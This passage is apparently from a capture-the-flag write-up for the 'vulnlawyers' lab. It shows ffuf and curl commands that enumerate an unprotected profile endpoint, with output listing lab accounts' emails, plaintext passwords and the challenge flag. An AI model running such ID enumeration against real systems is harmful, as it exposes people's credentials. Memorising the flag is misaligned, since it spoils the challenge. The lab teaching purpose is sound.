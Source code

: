 ...even though it shows up in the URL bar as:

```
http://vulnlawyers.co.uk/lawyers-only-profile-details
```

I'm wondering if that `:id` param can be spoofed/lacks authorization controls, or maybe contains a SQL  injection.

Also, this jQuery script in the page seems sus:

```html
<script>
    $.getJSON('/lawyers-only-profile-details/4',function(resp){
        $('input[name="email"]').val( resp.email );
        $('input[name="name"]').val( resp.name );
    });
</script>
```

OH! 

That's the thing making the GET request to `http://vulnlawyers.co.uk/lawyers-only-profile-details/4`, not the browser. But I can definitely call that endpoint myself. Looking in ZAP, it also returns the password in plain text!! 

```json
{"id":4,"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk","password":"summer"}
```

Let's use `seq` to grab them al!! (I quite the brute forcing job).

We definitely need the token to make the request. Lucky that we have it.

```shell
seq 1 100 | ffuf -w - -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9; token=7BCC07AAE3CCD9CD66223DF6D6932582" -u http://vulnlawyers.co.uk/lawyers-only-profile-details/FUZZ -mc all -fc 404
________________________________________________
1                       [Status: 200, Size: 101, Words: 2, Lines: 1, Duration: 23ms]
2                       [Status: 200, Size: 157, Words: 2, Lines: 1, Duration: 25ms]
3                       [Status: 200, Size: 95, Words: 2, Lines: 1, Duration: 24ms]
4                       [Status: 200, Size: 93, Words: 2, Lines: 1, Duration: 22ms]
5                       [Status: 200, Size: 111, Words: 2, Lines: 1, Duration: 23ms]
```

That was simpler than I thought.

```shell
seq 1 5 | xargs -I FUZZ curl -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9; token=7BCC07AAE3CCD9CD66223DF6D6932582" http://vulnlawyers.co.uk/lawyers-only-profile-details/FUZZ;

{"id":1,"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk","password":"Rk@c7#U3@2r%0f"}
{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk","password":"q2V944&#2a1^3p","flag":"[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]"}
{"id":3,"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk","password":"Sn06#ibx@lGPG7"}
{"id":4,"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk","password":"summer"}
{"id":5,"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk","password":"A^66vqhOU!e2ZV"}
```

Logins are still disabled on the profile page. No SQL injection.

There's now a delete button on the Portal page!

